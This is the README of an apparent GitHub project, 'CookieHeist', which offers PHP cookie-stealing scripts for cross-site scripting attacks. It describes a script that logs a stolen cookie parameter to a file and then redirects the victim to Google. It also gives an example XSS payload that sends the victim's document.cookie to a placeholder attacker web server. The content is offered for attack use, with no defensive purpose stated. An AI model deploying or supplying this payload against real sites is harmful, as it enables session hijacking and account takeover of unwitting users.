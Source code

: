 # CookieHeist
PHP Cookie Stealing Scripts for use in XSS

1. Cookiesteal-simple.php


Records whatever "c" parameter holds, in example case the document.cookie string. Then writes value to log.txt and redirects to Google.com.


Example: http://[Attacker Webserver]/cookiesteal-simple.php?c=document.cookie


XSS Payload Example: <script javascript:text>document.location="http://[Attacker Webserver]?c=" + document.cookie + "&t=Alert"; </script>
